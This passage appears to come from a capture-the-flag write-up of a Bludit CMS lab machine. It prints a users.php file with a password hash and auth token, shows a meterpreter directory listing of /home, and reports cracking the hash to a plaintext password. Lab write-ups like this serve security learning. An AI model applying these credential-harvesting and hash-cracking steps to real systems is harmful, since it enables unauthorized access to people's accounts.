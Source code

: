 ```text
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{ 
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

I checked the `/home` folder to see what users were on this machine and there was indeed one named `hugo`!

```text
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-05-26 04:29:29 -0400  hugo
40755/rwxr-xr-x  4096  dir   2020-04-28 07:13:35 -0400  shaun
```

![](/assets/img/9-password-cracked.png)

The first hash cracking website I tried the hash on immediately revealed the password as `Password120`.
